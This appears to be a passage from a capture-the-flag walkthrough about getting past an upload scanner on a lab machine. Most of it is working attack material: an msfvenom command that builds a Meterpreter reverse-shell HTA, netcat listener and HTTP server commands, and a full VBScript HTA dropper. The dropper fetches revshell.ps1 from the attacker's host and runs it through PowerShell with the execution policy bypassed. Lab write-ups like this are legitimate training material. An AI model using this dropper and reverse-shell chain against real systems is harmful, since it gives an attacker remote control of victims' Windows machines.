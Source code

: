 Let's upload it:

![web_result](images/Analysis10.png)

File is safe and we got nothing and it's logical because it's running in the sandbox so don't set up listener. As stated in tickets we will try to create a payload with hta extension:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f hta-psh > revshell.hta
```

Now it says that file isn't safe so we have to bypass it. We will create hta file that will execute our rev shell so we need to set up a lister and a server:

```bash
sudo nc -lnvp 7777
```
```bash
sudo python3 -m http.server 9090
```

```VBScript
<!DOCTYPE html>
<html>
<body>
<script type="text/vbscript">
Sub Window_OnLoad
    Dim a, b, c, d, e
    e = "http://10.10.14.61:9090/revshell.ps1"
    d = "C:\\Windows\\Temp\\revshell.ps1"
    Set a = CreateObject("MSXML2.XMLHTTP")
    Set b = CreateObject("WScript.Shell")
    Set c = CreateObject("ADODB.Stream")
    a.Open "GET", e, False
    a.Send
    If a.Status = 200 Then
        c.Open
        c.Type = 1
        c.Write a.ResponseBody
        c.SaveToFile d, 2
        c.Close
        b.Run "powershell -ExecutionPolicy Bypass -File " & d, 0, False
    End If
    Set c = Nothing
    Set b = Nothing
    Set a = Nothing
    self.close
End Sub
</script>
```